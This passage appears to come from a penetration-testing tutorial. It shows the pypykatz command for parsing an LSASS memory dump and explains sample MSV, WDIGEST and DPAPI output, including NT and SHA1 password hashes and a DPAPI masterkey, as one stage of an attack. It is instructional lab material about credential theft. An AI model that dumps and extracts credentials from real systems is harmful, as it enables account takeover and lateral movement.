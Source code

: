 
```powershell
pypykatz lsa minidump $LSASS_dump
```

We use `lsa` in the command because LSASS is a subsystem of `local security authority`, then we specify the data source as a `minidump` file.

**Lets take a more detailed look at some of the useful information in the output.**

## → **MSV**

```
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA

```

[MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. Pypykatz extracted the `SID`, `Username`, `Domain`, and even the `NT` & `SHA1` password hashes associated with the bob user account's logon session stored in LSASS process memory. This will prove helpful in the final stage of our attack covered at the end of this section.

## → **WDIGEST**

```
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)

```

`WDIGEST` is an older authentication protocol enabled by default in `Windows XP` - `Windows 8` and `Windows Server 2003` - `Windows Server 2012`. LSASS caches credentials used by WDIGEST in clear-text. This means if we find ourselves targeting a Windows system with WDIGEST enabled, we will most likely see a password in clear-text. Modern Windows operating systems have WDIGEST disabled by default. Additionally, it is essential to note that Microsoft released a security update for systems affected by this issue with WDIGEST. We can study the details of that security update [here](https://msrc-blog.microsoft.com/2014/06/05/an-overview-of-kb2871997/).

## → **DPAPI**

```
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605

```
